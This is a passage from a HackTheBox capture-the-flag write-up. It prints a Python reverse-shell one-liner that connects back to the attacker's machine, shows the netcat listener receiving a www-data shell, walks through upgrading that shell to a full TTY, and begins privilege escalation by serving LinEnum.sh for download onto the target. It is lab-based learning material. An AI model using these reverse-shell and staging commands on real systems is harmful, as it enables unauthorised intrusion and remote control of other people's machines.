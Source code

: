 Also nothing. Python? 

```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And that's a shell, ladies and gentlemen!

```bash
 $ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.68] 43200
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Upgrading Shell

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
# Background webshell with Ctrl-Z
# Now, in local shell run:
$ stty -a
$ echo $SHELL $TERM
$ stty raw -echo; fg
# Now, we're back in the webshell and need to set the $TERM and $SHELL variables, as well as the stty info
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows WHATEVER_WAS_IN_stty_-a columns WHATEVER_WAS_IN_stty_-a
$ clear
```

And now we have a full shell. Let's do some privilege escalation.

### Privilege Escalation

Let's get our favorite `LinEnum.sh` on this machine. I start a webserver from a directory that contains this script on my machine and will try to `curl` or `wget` it on the remote machine.

I have these two functions that I use to spin up a webserver on my machine quickly for HackTheBox:

```bash
htb_server () {
        echo "Server IP Address copied to clipboard" && echo "$(htb_ip):8000/" | xsel -ib && python3 -m http.server
}

htb_ip () {
        ifconfig tun0 | awk '/inet / {print $2}'
}
```
